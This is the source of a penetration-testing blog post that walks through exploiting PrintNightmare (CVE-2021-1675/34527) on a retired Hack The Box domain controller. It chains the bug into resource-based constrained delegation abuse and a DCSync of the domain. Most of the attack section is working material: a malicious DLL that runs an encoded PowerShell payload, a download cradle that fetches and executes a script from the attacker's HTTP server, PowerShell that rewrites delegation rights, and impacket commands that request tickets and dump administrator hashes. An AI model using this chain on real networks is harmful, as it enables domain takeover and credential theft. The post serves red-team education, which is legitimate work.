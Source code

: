 ```yaml
---
layout: post
title: "Leveraging PrintNightmare to Abuse RBCD and DCSync the Domain"
date: 2021-06-30 23:00:00 +0300
author: snovvcrash
tags: [internal-pentest, active-directory, print-spooler, printer-bug, cve-2021-1675l, CVE-2021-34527, arbitary-file-write, impacket, rbcd]
---
```


A relatively stealthy way to exploit PrintNightmare (CVE-2021-1675 / CVE-2021-34527) by configuring and abusing RBCD on a domain controller.

<!--cut-->

![banner.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/banner.png)
{:.center-image}

* TOC
{:toc}

## Prologue

The recent [PrintNightmare](https://github.com/afwu/PrintNightmare) (post CVE-2021-1675, *UPD: a few days later Microsoft assinged it a brand new **CVE-2021-34527***) exploit abuses <strike>in</strike>famous Print Spooler service in order to load and execute arbitary code on a Windows machine.

I won't dive into the vulnerability analysis because exploit authors will definitely do it better on the upcoming Black Hat event. As for now a brief description of the attack [can be found on the GitHub](https://github.com/afwu/PrintNightmare#cve-2021-1675-analysis).

Thanks to [@cube0x0](https://twitter.com/cube0x0/status/1409928527957344262) now we have [an impacket-based exploit](https://github.com/cube0x0/CVE-2021-1675) to trigger RCE from a Linux box. Another thing I though about is the red team aspect when generating a custom DLL binary. Good old *msfvenom* is (totally) not enough to fly under the radar of commercial antivirus solutions and/or the SOC team operators. If you ask me, I'd rather not run any C2 agents on the DC but aim for standard Active Directory persistence techniques.

So, what can we do when having access to code execution on the behalf of DC machine account and nothing more? Here is when resource-based constrained delegation comes in: impersonating a computer account an adversary can configure RBCD bits for that specific computer object, so that a full AD compromise becomes possible with no need for [adding new users](https://github.com/newsoft/adduser) to privileged groups (which is surely monitored) or running "noisy" malicious stuff on the DC!

## Testing Environment

For demonstration purposes I will use [Multimaster](https://www.hackthebox.eu/home/machines/profile/232) - a retired machine from Hack The Box - as a lab to play with PrintNightmare:

```powershell
PS > systeminfo

Host Name:                 MULTIMASTER
OS Name:                   Microsoft Windows Server 2016 Standard
OS Version:                10.0.14393 N/A Build 14393
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Primary Domain Controller
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00376-30821-30176-AA432
Original Install Date:     9/25/2019, 10:57:13 AM
System Boot Time:          6/30/2021, 11:01:25 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.13989454.B64.1906190538, 6/19/2019
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     4,095 MB
Available Physical Memory: 1,840 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 2,307 MB
Virtual Memory: In Use:    2,492 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    MEGACORP.LOCAL
Logon Server:              N/A
Hotfix(s):                 5 Hotfix(s) Installed.
                           [01]: KB3199986
                           [02]: KB4054590
                           [03]: KB4512574
                           [04]: KB4520724
                           [05]: KB4530689
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0 2
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.179
                                 [02]: fe80::c411:2b77:5e6f:acaf
                                 [03]: dead:beef::c411:2b77:5e6f:acaf
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

## Exploiting PrintNightmare

The first thing I want to do is to prepare a skeleton for malicious DLL binary that will source and execute a PowerShell script served by an HTTP server on my machine. To construct a DLL one may use [a template](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dll-hijacking#your-own) from HackTricks. Another thing to remember is that a threaded approach should be used to run the command in order not to kill the parent process of Spooler service when exiting (similar to `EXITFUNC=thread` when generating a payload with msfvenom). Otherwise the Spooler will probably die and you will not have a second chance to trigger the RCE if something goes wrong.

```c
// pwn.c

#include <windows.h>
#include <stdlib.h>
#include <stdio.h>

// Default function that is executed when the DLL is loaded
void Entry() {
    system("powershell -enc <BASE64_PWSH_CODE>");
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
  switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
      CreateThread(0, 0, (LPTHREAD_START_ROUTINE)Entry, 0, 0, 0);
      break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
      break;
  }
  return TRUE;
}
```

Next I will grab an example of [how RBCD bytes can be set with native PowerShell](https://github.com/hausec/Set-RBCDBytes/blob/main/Set-RBCDBytes.ps1) (by [@haus3c](https://twitter.com/haus3c)) and change the code for my case:

```powershell
$ID = New-Object System.Security.Principal.NTAccount("megacorp.local\fakemachine$")
$SID = $ID.Translate([System.Security.Principal.SecurityIdentifier]).ToString()
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($SID))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
$DN = ([adsisearcher]"(&(objectclass=computer)(name=MULTIMASTER))").FindOne().Properties.distinguishedname
$adsiobject = [ADSI]"LDAP://$DN"
$adsiobject.Put("msDS-allowedToActOnBehalfOfOtherIdentity", $SDBytes)
$adsiobject.setinfo()
```

Now I have to create a fake machine account to use it when it comes to requesting a forwardable ticket with S4U2Self & S4U2Proxy (some good references on how to abuse RBCD can be found on [PPN](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/delegation-abuse#resource-based-constrained-delegation-rbcd) and in my [HTB Hades write-up](https://snovvcrash.rocks/2020/12/28/htb-hades.html#abusing-kerberos-resource-based-constrained-delegation)):

```bash
$ addcomputer.py megacorp.local/lowpriv:'Passw0rd1!' -dc-ip 10.10.10.179 -computer-name fakemachine -computer-pass 'Passw0rd2!'
```

[![create-fake-machine-account.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/create-fake-machine-account.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/create-fake-machine-account.png)

After the machine object is successfully created (in other words we control a domain account with an SPN) I will make a file with a simple download cradle in PowerShell and convert it to UTF-16LE:

```bash
$ cat crandle.ps1
IEX(IWR http://10.10.14.11/rbcd.ps1 -UseBasicParsing)

$ cat crandle.ps1 | iconv -t UTF-16LE | base64 -w0
```

[![create-download-cradle.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/create-download-cradle.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/create-download-cradle.png)

I will can put the resulting base64 command into DLL source code and cross-compile it to x64 using MinGW:

```bash
$ x86_64-w64-mingw32-gcc pwn.c -o pwn.dll -shared
```

[![compile-dll.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/compile-dll.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/compile-dll.png)

Then move the binary to the Samba share and [check that it's accessible](https://github.com/cube0x0/CVE-2021-1675#smb-configuration):

[![prepare-samba.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/prepare-samba.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/prepare-samba.png)

I will download and install [the modified impacket library](https://github.com/cube0x0/impacket) within a virtual environment as well as download [the exploit script](https://github.com/cube0x0/CVE-2021-1675/blob/main/CVE-2021-1675.py):

[![install-impacket.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/install-impacket.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/install-impacket.png)

Note that dynamic `pDriverPath` (location of the `UNIDRV.DLL` binary) enumeration feature [was added by cube0x0](https://github.com/cube0x0/CVE-2021-1675/commit/3bad3016aca9a6ebb75e5e687614d1c0d045b1f6) a couple of hours after the release - without it the adversary would have to change the script according to the environment:

```powershell
PS > ls C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_*
```

[![get-pdriverpath.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/get-pdriverpath.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/get-pdriverpath.png)

Fire up an HTTP server with Python and trigger the bug:

```bash
$ python CVE-2021-1675.py megacorp.local/lowpriv:'Passw0rd1!'@10.10.10.179 '\\10.10.14.11\share\pwn.dll'
```

[![trigger-the-exploit.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/trigger-the-exploit.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/trigger-the-exploit.png)

In the background it will set the `PrincipalsAllowedToDelegateToAccount` property which can be verified like follows:

```powershell
PS > Get-ADComputer MULTIMASTER -Properties PrincipalsAllowedToDelegateToAccount
```

[![check-properties.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/check-properties.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/check-properties.png)

Now I can request a service ticket for LDAP:

```bash
$ getST.py megacorp.local/fakemachine:'Passw0rd2!' -dc-ip 10.10.10.179 -spn ldap/MULTIMASTER.megacorp.local -impersonate administrator
```

[![request-ticket.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/request-ticket.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/request-ticket.png)

And finally DCSync the domain with `secretsdump.py`:

```bash
$ export KRB5CCNAME=/home/snovvcrash/PrintNightmare/CVE-2021-1675/administrator.ccache
$ secretsdump.py multimaster.megacorp.local -dc-ip 10.10.10.179 -k -no-pass -just-dc-user administrator
```

[![dcsync.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/dcsync.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/dcsync.png)

## Afterthoughts

The described vulnerability poses enormous risks to active directory infrastructures and must never be used for illegal purposes. To mitigate the risk the Spooler service should be disabled or uninstalled until an official fix is released by vendor. An example on how to disable the Print Spooler can be found [here](https://github.com/LaresLLC/CVE-2021-1675).

*UPD*. Depending on the state of a user's access token (elevated / non-elevated) whose account one's impersonating when making RPC calls to `RpcAddPrinterDriverEx`, the attack may succeed or fail. On the following diagram (by [@StanHacked](https://twitter.com/StanHacked)) there're some conditions that can affect the token state:

[![making-sence-of-printnightmare.png](https://twitter.com/StanHacked/status/1410929974358515719/photo/1)](https://pbs.twimg.com/media/E5ShO9wXwAAPAC9?format=jpg&name=4096x4096)
